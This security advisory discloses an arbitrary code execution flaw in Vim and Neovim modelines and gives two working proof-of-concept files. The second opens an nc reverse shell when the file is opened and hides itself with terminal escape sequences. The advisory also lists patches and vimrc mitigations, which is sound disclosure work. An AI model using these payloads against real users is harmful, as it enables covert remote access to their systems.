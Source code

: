 
Vim/Neovim Arbitrary Code Execution via Modelines
=================================================

```
Product: Vim < 8.1.1365, Neovim < 0.3.6
Type:    Arbitrary Code Execution
```

Summary
-------

Vim before 8.1.1365 and Neovim before 0.3.6 are vulnerable to arbitrary code
execution via modelines by opening a specially crafted text file.


Proof of concept
----------------

- Create [`poc.txt`](https://github.com/numirias/security/blob/master/data/2019-06-04_ace-vim-neovim/poc.txt):

      :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

- Ensure that the modeline option has not been disabled (`:set modeline`).

- Open the file in Vim:

      $ vim poc.txt

- The system will execute `uname -a`.


Proof of concept 2 (reverse shell)
----------------------------------

This PoC outlines a real-life attack approach in which a reverse shell
is launched once the user opens the file. To conceal the attack, the file will
be immediately rewritten when opened. Also, the PoC uses terminal escape
sequences to hide the modeline when the content is printed with `cat`.
(`cat -v` reveals the actual content.)
(`cat -e` reveals the actual content.)

[`shell.txt`](https://github.com/numirias/security/blob/master/data/2019-06-04_ace-vim-neovim/shell.txt):

    \x1b[?7l\x1bSNothing here.\x1b:silent! w | call system(\'nohup nc 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[KNothing here."\x16\x1b[D \n

Demo (victim left, attacker right):

![Reverse shell demo](https://i.imgur.com/8w4tteX.gif)

Details
-------

The modeline feature allows to specify custom editor options near the start or
end of a file. This feature is enabled by default and applied to all file
types, including plain `.txt`. (Note that some OSes ship with a custom vimrc
that explicitly sets `nomodelines`, e.g. Debian. So if you use their custom
default vimrc instead of Vim's native defaults, you're safe.)

Patches
-------

- [Vim patch 8.1.1365](https://github.com/vim/vim/commit/5357552)
- [Neovim patch](https://github.com/neovim/neovim/pull/10082) (released in [v0.3.6](https://github.com/neovim/neovim/releases/tag/v0.3.6))


Check if you have modelines enabled by opening vim and entering

```:set modeline?```

If vim returns ```nomodeline```, you are not vulnerable.  If you are vulnerable
or want to ensure your security with this issue, add these lines to your vimrc:

```
set modelines=0
set nomodeline
```

Found vimrc:

```:verbose set modeline?```

[Links](https://www.youtube.com/watch?v=o-_oGSxUY3Y)
